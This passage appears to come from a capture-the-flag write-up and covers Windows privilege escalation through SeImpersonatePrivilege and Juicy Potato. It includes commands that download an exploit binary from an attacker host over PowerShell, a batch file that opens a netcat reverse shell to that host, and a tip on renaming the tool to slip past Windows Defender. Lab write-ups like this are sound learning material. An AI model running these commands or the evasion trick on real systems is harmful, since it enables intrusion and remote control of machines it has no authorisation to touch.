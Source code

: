 So it's time to escalate privileges!

## Privilege Escalation
---

Let's see what privileges we have now.

```console
C:\Users>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled 👈
SeCreateGlobalPrivilege Create global objects                     Enabled
```

We have the `SeImpersonatePrivilege` enabled, that means we can run [juicy potato](https://github.com/ohpe/juicy-potato) to gain privilege.

> Be sure to change the name of `Juicy Potato` to one that is less conspicuous just in case Windows Defender tries to flag it (I changed mine to just JP.exe).
{: .prompt-tip}

Let's start a local host page to get our payloads onto the target. This should allow us to download the executables needed to exploit the target.

```console
$ python3 -m http.server 80
```

To upload, you must type the following command on the windows machine.

```console
$ Powershell -c "IWR -useBasicParsing http://<YourIP>/JP.exe -o JP.exe"
```

Then as the documentation specifies, we need a Batch file to run. So now we need to create a bat file using the following command:

```console
$ echo START c:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe <YourIP> <YourPort> > sh3ll.bat
```
Then all the things are fine.

```console
C:\inetpub\wwwroot\wordpress\wp-content\uploads>Powershell -c "IWR -useBasicParsing http://10.10.16.65:80/JP.exe -o JP.exe"
Powershell -c "IWR -useBasicParsing http://10.10.16.65:80/JP.exe -o JP.exe"

C:\inetpub\wwwroot\wordpress\wp-content\uploads>echo START c:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.16.65 4444 > sh3ll.bat
echo START c:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.16.65 4444 > sh3ll.bat
```
